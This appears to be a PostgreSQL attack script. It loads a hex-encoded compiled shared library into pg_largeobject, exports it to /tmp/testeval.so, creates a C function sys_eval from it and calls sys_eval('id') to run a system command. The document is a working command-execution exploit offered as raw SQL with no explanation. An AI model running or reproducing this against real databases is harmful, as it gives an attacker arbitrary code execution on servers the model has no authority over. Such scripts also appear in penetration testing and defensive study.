insert into pg_largeobject values (9023, 1, decode('6564617461005f5f6273735f7374617274005f656e6400474c4942435f322e3400474c4942435f322e322e350000000000000200020000000200020003000200020002000200020000000000020002000200020002000200020000000000020000000200010001000100010001000100010001000100010001000100010001000100010000000000010002008d01000010000000000000001469690d00000300af01000010000000751a690900000200b901000000000000001e2000000000000800000000000000200e000000000000081e2000000000000800000000000000e00d000000000000d8202000000000000800000000000000d820200000000000d81f20000000000006000000040000000000000000000000e01f200000000000060000000d0000000000000000000000e81f20000000000006000000160000000000000000000000f01f20000000000006000000170000000000000000000000f81f200000000000060000001800000000000000000000001820200000000000070000000200000000000000000000002020200000000000070000000300000000000000000000002820200000000000070000000500000000000000000000003020200000000000070000000600000000000000000000003820200000000000070000000700000000000000000000004020200000000000070000000800000000000000000000004820200000000000070000000900000000000000000000005020200000000000070000000a00000000000000000000005820200000000000070000000b00000000000000000000006020200000000000070000002300000000000000000000006820200000000000070000000c00000000000000000000007020200000000000070000000d00000000000000000000007820200000000000070000000e00000000000000000000008020200000000000070000000f0000000000000000000000882020000000000007000000100000000000000000000000902020000000000007000000110000000000000000000000982020000000000007000000120000000000000000000000a02020000000000007000000130000000000000000000000a82020000000000007000000140000000000000000000000b02020000000000007000000150000000000000000000000b82020000000000007000000180000000000000000000000c02020000000000007000000190000000000000000000000c820200000000000070000001a0000000000000000000000d020200000000000070000002a00000000000000000000004883ec08488b051d1420004885c07405e8d30000004883c408c30000000000000000000000000000ff3522142000ff25241420000f1f4000ff25221420006800000000e9e0ffffffff251a1420006801000000e9d0ffffffff25121420006802000000e9c0ffffffff250a1420006803000000e9b0ffffffff25021420006804000000e9a0ffffffff25fa1320006805000000e990ffffffff25f21320006806000000e980ffffffff25ea1320006807000000e970ffffffff25e21320006808000000e960ffffffff25da1320006809000000e950ffffffff25d2132000680a000000e940ffffffff25ca132000680b000000e930ffffffff25c2132000680c000000e920ffffffff25ba132000680d000000e910ffffffff25b2132000680e000000e900ffffffff25aa132000680f000000e9f0feffffff25a21320006810000000e9e0feffffff259a1320006811000000e9d0feffffff25921320006812000000e9c0feffffff258a1320006813000000e9b0feffffff25821320006814000000e9a0feffffff257a1320006815000000e990feffffff25721320006816000000e980feffffff256a1320006817000000e970feffff488d0570132000488d3d62132000554829f84889e54883f80e77025dc3488b05441220004885c074f25dffe00f1f4000488d0539132000488d3d32132000554829f84889e548c1f8034889c248c1ea3f4801d048d1f875025dc3488b151f1220004885d274f25d4889c6ffe20f1f4000803df912200000752748833d0712200000554889e5740c488b3dda122000e82dffffffe868ffffff5dc605d012200001f3c366666666662e0f1f84000000000048833de80f2000007426488b05b71120004885c0741a55488d3dd20f20004889e5ffd05de957ffffff0f1f8000000000e94bffffff488d05e4030000c355534889fb508b17c1ea028d6afc8d7d014863ffe84afeffff4863d5488d73044889c74889d1f3a4c60410005a5b5dc341544983ccff4c89e15531ed4088e8534889fbf2ae48f7d1488d7903e812feffff4889df4889c24c89e14088e84889def2ae4889df48f7d18d048d0c0000004c89e189024088e8f2ae488d420448f7d14c01e14889c74889d0f3a45b5d415cc3488d0548030000c341554154554889fd5351488b7f20e8a8fdffff4889c74889c3e86dfdffff4989c44889c7e832fdffff4c89e74189c5e8c7fcffff483b5d2074084889dfe809feffff5a5b5d415c4489e8415dc3488d05ef020000c34157415641554154555352488b7f20e852fdffff4889c7e81afdffffbf000400004889c5e84dfdffffbf010000004989c4e840fdffff488d35890200004889efc600004889c331ede869fdffff4989c54c89eabe080000004c89e7e8c6fcffff4885c0743931c04c89e74883c9fff2ae4889df48f7d14c8d71ff468d7c35004963f7e80ffdffff488d3c284963d64c89e64889c34963efe81afcffffebb24c89efe870fcffff803b007405c6442bff00584889df5b5d', 'hex'));
insert into pg_largeobject values (9023, 2, decode('415c415d415e415fe953fdffff488d0520020000c341545553488b7f20e88efcffff4989c48b28e824fdffff85c07907b801000000eb677555c1ed02bf1e000000e8dafcffff83ed04488d70ff4531c94863ed4531c031ff488d042e48f7d6b921000000ba070000004821c6e8cffbffff4883f8ff4889c374b6498d7424044889ea4889c7e876fbffffffd3eb0eba0100000031f689c7e854fcffff31c05b5d415cc3488d0586010000c341574989ff41564155415455534883ec28488b7f2064488b042528000000488944241831c0e8dbfbffff488d7c2407488d3534010000b911000000f3a44889c7e890fbffff488d351b0100004889c74989c4e80efcffff4885c04889c3744431f6ba020000004889c7e8b7fbffff4889dfe86ffbffff31d231f64889c54889df4189c5e89dfbffff8d7d014863ffe882fbffff4885c04989c675144889dfe8d2faffff41c6471c0131c0e9830000004889d9ba010000004863f54889c7e8a3faffff4889dfe8abfaffff8d7c2d014863ffe83ffbffff31d24889c34139d58d04127e23418a041688c183e00fc0e9048a44040783e10f8a4c0c0788445301880c5348ffc2ebd548984889dfc6040300e8a1fbffff4889df4889c5e826faffff4c89f7e81efaffff4c89e7e816faffff4889e8488b7424186448333425280000007405e83efaffff4883c4285b5d415c415d415e415fc30000004883ec084883c408c30000007200726200303132333435363738394142434445460000000000000000000000010000000100000001000000010000001c000000890300006400000020000000400000000100000001000000011b033b680000000c00000084f9ffff84000000f9fbffffac00000001fcffffc400000031fcffffec00000091fcffff1c01000099fcffff34010000e6fcffff6c010000eefcffff84010000b1fdffffcc010000b9fdffffe401000047feffff140200004ffeffff2c0200001400000000000000017a5200017810011b0c070890010000240000001c000000f8f8ffff90010000000e10460e184a0f0b770880003f1a3b2a33242200000000140000004400000045fbffff080000000000000000000000240000005c00000035fbffff3000000000410e108602410e188303440e20670e18410e10410e08002c000000840000003dfbffff6000000000420e108c02480e188603460e208304024c0e18410e10420e0800000000000014000000b40000006dfbffff08000000000000000000000034000000cc0000005dfbffff4d00000000420e108d02420e188c03410e208604440e288305410e30790e28410e20410e18420e10450e0800140000000401000072fbffff080000000000000000000000440000001c01000062fbffffc300000000420e108f02420e188e03420e208d04420e288c05410e308606410e388307410e4002a60e38440e30410e28420e20420e18420e10420e081400000064010000ddfbffff0800000000000000000000002c0000007c010000cdfbffff8e00000000420e108c02410e188603410e20830402860e18410e10420e0800000000000014000000ac0100002bfcffff0800000000000000000000004c000000c40100001bfcffff5601000000420e108f02450e188e03420e208d04420e288c05410e308606410e388307440e60033a010e38410e30410e28420e20420e18420e10420e080000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000', 'hex'));
insert into pg_largeobject values (9023, 3, decode('000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000200e000000000000e00d000000000000000000000000000001000000000000008d010000000000000c00000000000000b80b0000000000000d0000000000000004120000000000001900000000000000001e2000000000001b0000000000000008000000000000001a00000000000000081e2000000000001c000000000000000800000000000000f5feff6f00000000f00100000000000005000000000000006806000000000000060000000000000060020000000000000a00000000000000c5010000000000000b000000000000001800000000000000030000000000000000202000000000000200000000000000400200000000000014000000000000000700000000000000170000000000000078090000000000000700000000000000b8080000000000000800000000000000c00000000000000009000000000000001800000000000000feffff6f000000008808000000000000ffffff6f000000000100000000000000f0ffff6f000000002e08000000000000f9ffff6f000000000300000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000', 'hex'));
insert into pg_largeobject values (9023, 4, decode('181e20000000000000000000000000000000000000000000f60b000000000000060c000000000000160c000000000000260c000000000000360c000000000000460c000000000000560c000000000000660c000000000000760c000000000000860c000000000000960c000000000000a60c000000000000b60c000000000000c60c000000000000d60c000000000000e60c000000000000f60c000000000000060d000000000000160d000000000000260d000000000000360d000000000000460d000000000000560d000000000000660d000000000000d8202000000000004743433a20285562756e747520342e382e342d327562756e7475317e31342e30342e342920342e382e3400002e7368737472746162002e6e6f74652e676e752e6275696c642d6964002e676e752e68617368002e64796e73796d002e64796e737472002e676e752e76657273696f6e002e676e752e76657273696f6e5f72002e72656c612e64796e002e72656c612e706c74002e696e6974002e74657874002e66696e69002e726f64617461002e65685f6672616d655f686472002e65685f6672616d65002e696e69745f6172726179002e66696e695f6172726179002e6a6372002e64796e616d6963002e676f74002e676f742e706c74002e64617461002e627373002e636f6d6d656e7400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b000000070000000200000000000000c801000000000000c80100000000000024000000000000000000000000000000040000000000000000000000000000001e000000f6ffff6f0200000000000000f001000000000000f0010000000000006c00000000000000030000000000000008000000000000000000000000000000280000000b00000002000000000000006002000000000000600200000000000008040000000000000400000002000000080000000000000018000000000000003000000003000000020000000000000068060000000000006806000000000000c50100000000000000000000000000000100000000000000000000000000000038000000ffffff6f02000000000000002e080000000000002e08000000000000560000000000000003000000000000000200000000000000020000000000000045000000feffff6f020000000000000088080000000000008808000000000000300000000000000004000000010000000800000000000000000000000000000054000000040000000200000000000000b808000000000000b808000000000000c0000000000000000300000000000000080000000000000018000000000000005e000000040000000200000000000000780900000000000078090000000000004002000000000000030000000a0000000800000000000000180000000000000068000000010000000600000000000000b80b000000000000b80b0000000000001a0000000000000000000000000000000400000000000000000000000000000063000000010000000600000000000000e00b000000000000e00b00000000000090010000000000000000000000000000100000000000000010000000000000006e000000010000000600000000000000700d000000000000700d0000000000009104000000000000000000000000000010000000000000000000000000000000740000000100000006000000000000000412000000000000041200000000000009000000000000000000000000000000040000000000000000000000000000007a000000010000000200000000000000101200000000000010120000000000004c00000000000000000000000000000010000000000000000000000000000000820000000100000002000000000000005c120000000000005c120000000000006c0000000000000000000000000000000400000000000000000000000000000090000000010000000200000000000000c812000000000000c81200000000000014020000000000000000000000000000080000000000000000000000000000009a0000000e0000000300000000000000001e200000000000001e0000000000000800000000000000000000000000000008000000000000000000000000000000a60000000f0000000300000000000000081e200000000000081e0000000000000800000000000000000000000000000008000000000000000000000000000000b2000000010000000300000000000000101e200000000000101e0000000000000800000000000000000000000000000008000000000000000000000000000000b7000000060000000300000000000000181e200000000000181e000000000000c001000000000000040000000000000008000000000000001000000000000000c0000000010000000300000000000000d81f200000000000d81f0000000000002800000000000000000000000000000008000000000000000800000000000000c500000001000000030000000000000000202000000000000020000000000000d800000000000000000000000000000008000000000000000800000000000000ce000000010000000300000000000000d820200000000000d8200000000000000800000000000000000000000000000008000000000000000000000000000000d4000000080000000300000000000000e020200000000000e0200000000000000800000000000000000000000000000001000000000000000000000000000000d9000000010000003000000000000000', 'hex'));
insert into pg_largeobject values (9023, 5, decode('0000000000000000e0200000000000002b000000000000000000000000000000010000000000000001000000000000000100000003000000000000000000000000000000000000000b21000000000000e200000000000000000000000000000001000000000000000000000000000000', 'hex'));
SELECT lo_export(9023, '/tmp/testeval.so');
CREATE OR REPLACE FUNCTION sys_eval(text) RETURNS text AS '/tmp/testeval.so', 'sys_eval' LANGUAGE C RETURNS NULL ON NULL INPUT IMMUTABLE;
select sys_eval('id');
drop function sys_eval(text);

```


